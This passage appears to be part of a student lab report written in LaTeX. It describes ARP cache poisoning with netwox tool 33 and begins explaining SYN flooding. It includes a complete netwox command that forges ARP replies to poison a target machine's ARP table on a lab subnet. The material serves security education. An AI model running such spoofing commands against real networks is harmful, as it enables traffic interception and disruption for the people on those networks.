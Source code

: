 \documentclass[12pt]{article}
\begin{document}
\subsubsection{Running netwox}
Tool 33 is used for this, to broadcast an ARP packet that \emph{192.168.121.2} has a hardware address of \emph{00:0C:29:41:88:70}. Tool 33 basically serves to send out an ARP reply packet and since the computer doesn't check if it has previously sent a ARP request, sending a new ARP reply to the target machine will update it's ARP table.\\

\begin{lstlisting}
netwox 33 --device "eth2" --eth-src 00:0C:29:41:88:70 --eth-dst 00:0c:29:95:fb:a1 --eth-type 2054 --arp-op 2 --arp-ethsrc 00:0C:29:41:88:70 --arp-ipsrc 192.168.121.2 --arp-ethdst 00:0c:29:95:fb:a1 --arp-ipdst 192.168.121.30
\end{lstlisting}


\subsection{Screenshot of ARP table}
\subsubsection{Before}
\includegraphics[width=160mm]{task11.png}

\subsubsection{After}
\includegraphics[width=160mm]{task12.png}
\pagebreak

\section{Task 2}
\subsection{Mechanism of SYN Flooding Attack}
In TCP, there is generally a 3-way handshake before a connection starts, where the client first sends a \emph{SYN} packet, and the server then responds with a \emph{SYN-ACK} packet, and the client then ultimately responds with a \emph{ACK} packet.\\
\end{document}
